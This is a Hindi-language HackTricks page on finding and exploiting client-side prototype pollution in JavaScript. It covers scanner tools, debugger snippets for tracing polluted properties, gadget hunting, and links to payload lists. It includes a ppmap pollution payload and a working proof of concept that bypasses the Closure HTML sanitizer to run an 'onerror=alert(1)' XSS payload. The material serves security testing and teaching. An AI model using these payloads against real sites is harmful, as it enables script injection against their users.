 # क्लाइंट साइड प्रोटोटाइप प्रदूषण

{% hint style="success" %}
सीखें और प्रैक्टिस करें AWS हैकिंग:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
सीखें और प्रैक्टिस करें GCP हैकिंग: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **हमारा अनुसरण करें** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* हैकिंग ट्रिक्स साझा करें और [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}

## स्वचालित उपकरणों का उपयोग करके खोज करना

उपकरण [**https://github.com/dwisiswant0/ppfuzz**](https://github.com/dwisiswant0/ppfuzz?tag=v1.0.0)**,** [**https://github.com/kleiton0x00/ppmap**](https://github.com/kleiton0x00/ppmap) **और** [**https://github.com/kosmosec/proto-find**](https://github.com/kosmosec/proto-find) का उपयोग **प्रोटोटाइप प्रदूषण कमजोरियों** को **खोजने** के लिए किया जा सकता है।

इसके अलावा, आप **ब्राउज़र एक्सटेंशन** [**PPScan**](https://github.com/msrkp/PPScan) का उपयोग करके **स्वचालित रूप से** **स्कैन** कर सकते हैं **पृष्ठों** को जिनका आप **पहुँच** करते हैं प्रोटोटाइप प्रदूषण कमजोरियों के लिए।

### यह पता लगाना कि एक प्रॉपर्टी कहाँ उपयोग की जाती है <a href="#id-5530" id="id-5530"></a>

{% code overflow="wrap" %}
```javascript
// Stop debugger where 'potentialGadget' property is accessed
Object.defineProperty(Object.prototype,'potentialGadget', {__proto__:null, get(){
console.trace();
return 'test';
}})
```
{% endcode %}

### Prototype Pollution के मूल कारण का पता लगाना <a href="#id-5530" id="id-5530"></a>

एक बार जब किसी भी उपकरण द्वारा एक प्रोटोटाइप प्रदूषण की भेद्यता की पहचान की जाती है, और यदि कोड अत्यधिक जटिल नहीं है, तो आप Chrome Developer Tools में `location.hash`, `decodeURIComponent`, या `location.search` जैसे कीवर्ड्स की खोज करके भेद्यता को ढूंढ सकते हैं। यह दृष्टिकोण आपको JavaScript कोड के संवेदनशील भाग को सटीक रूप से पहचानने की अनुमति देता है।

बड़े और अधिक जटिल कोडबेस के लिए, संवेदनशील कोड का पता लगाने के लिए एक सीधा तरीका निम्नलिखित चरणों में शामिल है:

1. एक उपकरण का उपयोग करें ताकि एक भेद्यता की पहचान की जा सके और एक पेलोड प्राप्त किया जा सके जो कंस्ट्रक्टर में एक प्रॉपर्टी सेट करने के लिए डिज़ाइन किया गया हो। ppmap द्वारा प्रदान किया गया एक उदाहरण इस प्रकार हो सकता है: `constructor[prototype][ppmap]=reserved`।
2. उस पहले JavaScript कोड की पंक्ति पर एक ब्रेकपॉइंट सेट करें जो पृष्ठ पर निष्पादित होगा। पेलोड के साथ पृष्ठ को रिफ्रेश करें, इस ब्रेकपॉइंट पर निष्पादन को रोकते हुए।
3. जब JavaScript निष्पादन रुका हो, तो JS कंसोल में निम्नलिखित स्क्रिप्ट निष्पादित करें। यह स्क्रिप्ट संकेत देगी जब 'ppmap' प्रॉपर्टी बनाई जाती है, जिससे इसके मूल का पता लगाने में मदद मिलेगी:
```javascript
function debugAccess(obj, prop, debugGet=true){

var origValue = obj[prop];

Object.defineProperty(obj, prop, {
get: function () {
if (debugGet)
debugger;
return origValue;
},
set: function(val) {
debugger;
origValue = val;
}
});

};

debugAccess(Object.prototype, 'ppmap')
```
4. **Sources** टैब पर वापस जाएं और "Resume script execution" का चयन करें। JavaScript निष्पादन जारी रखेगा, और 'ppmap' प्रॉपर्टी अपेक्षित रूप से प्रदूषित हो जाएगी। प्रदान किए गए स्निपेट का उपयोग 'ppmap' प्रॉपर्टी के प्रदूषण के सटीक स्थान की पहचान करने में मदद करता है। **Call Stack** की जांच करके, विभिन्न स्टैक्स देखे जा सकते हैं जहां प्रदूषण हुआ।

जब यह तय करने की बात आती है कि किस स्टैक की जांच करनी है, तो अक्सर JavaScript लाइब्रेरी फ़ाइलों से संबंधित स्टैक्स को लक्षित करना उपयोगी होता है, क्योंकि प्रोटोटाइप प्रदूषण अक्सर इन लाइब्रेरीज़ के भीतर होता है। लाइब्रेरी फ़ाइलों से इसके जुड़ाव की जांच करके प्रासंगिक स्टैक की पहचान करें (जो दाईं ओर दिखाई देता है, मार्गदर्शन के लिए प्रदान की गई छवि के समान)। कई स्टैक्स के मामलों में, जैसे कि लाइन 4 और 6 पर, तार्किक विकल्प लाइन 4 का स्टैक है, क्योंकि यह प्रदूषण की प्रारंभिक घटना का प्रतिनिधित्व करता है और इस प्रकार भेद्यता का मूल कारण है। स्टैक पर क्लिक करने से आपको संवेदनशील कोड पर ले जाया जाएगा।

![https://miro.medium.com/max/1400/1\*S8NBOl1a7f1zhJxlh-6g4w.jpeg](https://miro.medium.com/max/1400/1\*S8NBOl1a7f1zhJxlh-6g4w.jpeg)

## स्क्रिप्ट गैजेट्स खोजना

गैजेट वह **कोड है जिसका दुरुपयोग एक PP भेद्यता के खोजे जाने पर किया जाएगा**।

यदि एप्लिकेशन सरल है, तो हम **`srcdoc/innerHTML/iframe/createElement`** जैसे **कीवर्ड्स** के लिए **खोज** कर सकते हैं और स्रोत कोड की समीक्षा कर सकते हैं और जांच सकते हैं कि क्या यह **जावास्क्रिप्ट निष्पादन की ओर ले जाता है**। कभी-कभी, उल्लेखित तकनीकें गैजेट्स नहीं खोज पाती हैं। उस मामले में, शुद्ध स्रोत कोड समीक्षा कुछ अच्छे गैजेट्स का खुलासा करती है जैसे कि नीचे दिया गया उदाहरण।

### उदाहरण: मिथिल लाइब्रेरी कोड में PP गैजेट खोजना

इस लेख को देखें: [https://blog.huli.tw/2022/05/02/en/intigriti-revenge-challenge-author-writeup/](https://blog.huli.tw/2022/05/02/en/intigriti-revenge-challenge-author-writeup/)

## संवेदनशील लाइब्रेरी के लिए पेलोड्स का पुनः संकलन

* [https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#prototype-pollution](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#prototype-pollution)
* [https://github.com/BlackFan/client-side-prototype-pollution](https://github.com/BlackFan/client-side-prototype-pollution)

## PP के माध्यम से HTML Sanitizers बायपास

[**यह शोध**](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/) कुछ HTML sanitizers लाइब्रेरी द्वारा प्रदान की गई **सैनिटाइजेशन को बायपास करने के लिए PP गैजेट्स** दिखाता है:

* **sanitize-html**

<figure><img src="../../../.gitbook/assets/image (1140).png" alt="https://research.securitum.com/wp-content/uploads/sites/2/2020/08/image-7.png"><figcaption></figcaption></figure>

* **dompurify**

<figure><img src="../../../.gitbook/assets/image (1141).png" alt="https://research.securitum.com/wp-content/uploads/sites/2/2020/08/image-9.png"><figcaption></figcaption></figure>

* **Closure**
```html
<!-- from https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/ -->
<script>
Object.prototype['* ONERROR'] = 1;
Object.prototype['* SRC'] = 1;
</script>
<script src=https://google.github.io/closure-library/source/closure/goog/base.js></script>
<script>
goog.require('goog.html.sanitizer.HtmlSanitizer');
goog.require('goog.dom');
</script>
<body>
<script>
const html = '<img src onerror=alert(1)>';
const sanitizer = new goog.html.sanitizer.HtmlSanitizer();
const sanitized = sanitizer.sanitize(html);
const node = goog.dom.safeHtmlToNode(sanitized);

document.body.append(node);
</script>
```
## संदर्भ

* [https://infosecwriteups.com/hunting-for-prototype-pollution-and-its-vulnerable-code-on-js-libraries-5bab2d6dc746](https://infosecwriteups.com/hunting-for-prototype-pollution-and-its-vulnerable-code-on-js-libraries-5bab2d6dc746)
* [https://blog.s1r1us.ninja/research/PP](https://blog.s1r1us.ninja/research/PP)
* [https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/#:\~:text=my%20challenge.-,Closure,-Closure%20Sanitizer%20has](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/)

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो** करें [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}
